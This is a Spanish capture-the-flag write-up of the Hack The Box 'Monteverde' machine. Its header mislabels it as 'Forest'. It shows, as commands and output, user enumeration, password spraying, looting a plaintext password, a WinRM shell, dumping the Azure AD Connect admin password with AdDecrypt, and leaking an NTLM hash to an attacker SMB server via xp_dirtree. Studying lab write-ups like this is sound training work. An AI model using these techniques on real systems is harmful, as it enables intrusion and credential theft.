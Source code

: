 ```yaml
---
layout: single
title: Forest - Hack The Box
excerpt: "Tocamos directorio activo"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-forest/forest1.png
categories:
  - hackthebox
  - infosec
tags:
  - hackthebox
  - AD
  - Windows  
---
```


# 10.10.10.172 - Monteverde
![](/assets/images/htb-monteverde/monteverde1.png)

-------------------------
# Part 1: Reconocimiento inicial y obtención de credenciales

Puertos abiertos -> 88(kerberos), 135(rpc), 139, 464, 5985(winrm)  
Con crackmapexec podemos hacer un reconocimiento del dominio como sacar el nombre y sistema:  
```console
└─$ crackmapexec smb 10.10.10.172
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
```

## Puerto 135 RPC:
Tenemos suerte y podemos tirar de una null session:  
```console
└─$ rpcclient -U "" 10.10.10.172 -N -c "enumdomusers" | grep -oP "\[.*?\]" | grep -v "0x" | tr -d "[]" >> users.txt
# Una buena lista de usaurios
└─$ rpcclient -U "" 10.10.10.172 -N -c "enumdomgroups"
# Nos copiamos en un archivo de texto los grupos, ya que hay alguno interesante. No tenemos el clásico domain admins pero si Azure Admins
└─$ rpcclient -U "" 10.10.10.172 -N -c "querygroupmem 0xa29" 
# Los de Azure -> 0x1f4, 0x450, 0x641. EL problema esque si preguntamos por queryuser y uno nos da access denied
```

## Puerto 88 kerberos:  
```console
└─$ kerbrute userenum --dc 10.10.10.172 -d megabank.local users.txt
# Todos validos
└─$ /usr/bin/impacket-GetNPUsers megabank.local/ -no-pass -usersfile users.txt  
# Todos tienen el UF_DONT_REQUIRE_PREAUTH seteado, asi que nada de contraseñas.
```

## SMB - Crackmapexec  
Como no tenemos creds, se pueden sacar de maneras como el nombre de la máquina, o...    
El nombre del propio usaurio (u otro usuario por si son pareja). Un error como un piano.  
```console
└─$ crackmapexec smb 10.10.10.172 -u users.txt -p users.txt --continue-on-succes 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

Probamos otro ultimo ataque por kerberos al conseguir creds:
```console
└─$ impacket-GetUserSPNs megabank.local/SABatchJobs:SABatchJobs -dc-ip 10.10.10.172 -request
# No hay suerte
```
---------------------------
# Part 2: Acceso al sistema

Seguimos con SMB. Voy mostrando los unicos lugares que no están vacíos    
```console
└─$ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs'
# Tenemos acceso a "azure_uploads", "IPC$", "NELOGON", "SYSVOL" y users$"" 
└─$ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' -r "users$"
# Hay varias carpetas "dgalanos", "mhope", "smorgan" y "roleary". Solo mhope tiene un archivo "azure.xml"
└─$ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' --download "users$/mhope/azure.xml"
└─$ cat 10.10.10.172-users_mhope_azure.xml 
<ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
<S N="Password">4n0therD4y@n0th3r$</S>
```
El mhope este era uno de los usaurios que obtuvimos del RPC, y esta parece su contraseña.  
```console
└─$ crackmapexec smb 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$
```
En efecto. Vuelvo a probar el GetUsersSPNs con estas nuevas creds pero tampoco. Con el smbmap no encuentro nada más que con la otra chica.  
```console
└─$ crackmapexec winrm 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'
WINRM       10.10.10.172    5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
└─$ evil-winrm -i 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'  
*Evil-WinRM* PS C:\Users\mhope\Documents>
```
Tras una enumeración con mi script de windows  
- Nuestro mhope pertenece a "Azure Admins" y "Domain Users"  
- Hay backups del SAM y system en C:\Windows\System32\config\  

---------------------------
# Part 3: Explotación de Azure AD

Al ser un dominio Azure está configurado de manera diferente, remota. Al ser algo instalado de fuera habría que mirar en "Program Files":  
```console
*Evil-WinRM* PS C:\Program Files> dir | findstr "Azure"
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

En este [articulo](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/) hablan de uan vuln en Azure AD que permite obtener
las creds del Administrador subiendo dos archivos:  
- Habría que descargarse la [release](https://github.com/VbScrub/AdSyncDecrypt/releases/download/v1.0/AdDecrypt.zip) y subirla al sistema
```console
*Evil-WinRM* PS C:\Users\mhope\Desktop> upload /home/cucuxii/Maquinas/htb/Monteverde/mcrypt.dll
*Evil-WinRM* PS C:\Users\mhope\Desktop> upload /home/cucuxii/Maquinas/htb/Monteverde/AdDecrypt.exe
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> C:\Users\mhope\Desktop\AdDecrypt.exe -FullSQL
Username: administrator
Password: d0m@in4dminyeah!
```

Ahora te podrias conectar como admin ```evil-winrm -i 10.10.10.172 -u 'administrator' -p 'd0m@in4dminyeah!'```

--------------------------------------
# Extra: Analizando la vuln de Azure

Investigué mas en profundidad esta vuln gracias a estos articulos: 
[Fuente](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/)    
[FUente 2](https://blog.xpnsec.com/azuread-connect-for-redteam/)    
[Video](https://www.youtube.com/watch?v=JEIR5oGCwdg)    

El servicio "Azure AD Connect" conecta el directorio activo local con la plataforma de dominios de Azure. Dicho servicio, (para gestionar desde
Azure tu sistema) necesita credenciales de administrador. 
El zip que te descargas tiene estos dos programas que subes:   
- **AdDecrypt.exe** -> Las creds se sacan de una SQL llamada "ADSync" (tablas mms_management y mms_server) y se desencriptan.     
- **mcrypt.dll** -> Codigo en C# que se encarga de descenriptar lo sacado antes (DPAPI)  

Ivestigando el articulo de esa persona podemos navegar por las bases de datos que dice:  
```console
*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "select name from sys.databases"
master, tempdb, model, msdb, ADSync

*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "xp_dirtree '\\10.10.14.12\carpeta'"
└─$ impacket-smbserver carpeta $(pwd) -smb2support

[*] MONTEVERDE$::MEGABANK:aaaaaaaaaaaaaaaa:51e2852a7fe64f40ec474fe257c9eec8:0101000000000000001e935bacfdd80160fc5fcc717a077e00000000010010005700460047007800730059006d005800030010005700460047007800730059006d00580002001000670074006d006d00790075006e00610004001000670074006d006d00790075006e00610007000800001e935bacfdd80106000400020000000800300030000000000000000000000000300000c42f279549204924bbc39fce074dc6fdd4df5f988eee2073af01708ebd8864090a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310032000000000000000000
```
Vemos que se ha enviado un hash por ahí que hemos interceptado, es decir alguien ( megabank.local) se ha autenticado contra alguien (Azure).  
Si vemos el script del artículo e intentamos replicar la query:  
```console
*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
Invalid object name 'mms_management_agent'

*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "use ADSync; select private_configuration_xml,encrypted_configuration from mms_management_agent"
 <forest-name>MEGABANK.LOCAL</forest-name>
 <forest-port>0</forest-port>
 <forest-guid>{00000000-0000-0000-0000-000000000000}</forest-guid>
 <forest-login-user>administrator</forest-login-user>
 <forest-login-domain>MEGABANK.LOCAL 8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g

*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "use ADSync; select keyset_id,instance_id,entropy from mms_server_configuration"
keyset_id   instance_id                          entropy
          1 1852B527-DD4F-4ECF-B541-EFCCBFF29E31 194EC2FC-F186-46CF-B44D-071EB61F49CD
```

Obtenemos las dos cosas que necesita para obtener las credenciales.  La cadena "8AAAAAgAAABQhCBBnwTpdfQE6uNJe..." está en base 64, si se decodifica
salen caracteres sin sentido (que supongo que será el texto cifrado). Si le haces ```xxd -ps | xargs``` obtendrías todos los bytes. Esto se lo pasa al
**mcrypt.dll** que lo rompe.  

Mas detalles se escapan de mi entendimiento, pero al menos hemos sacado una idea de lo que está haciendo a grosso modo.  
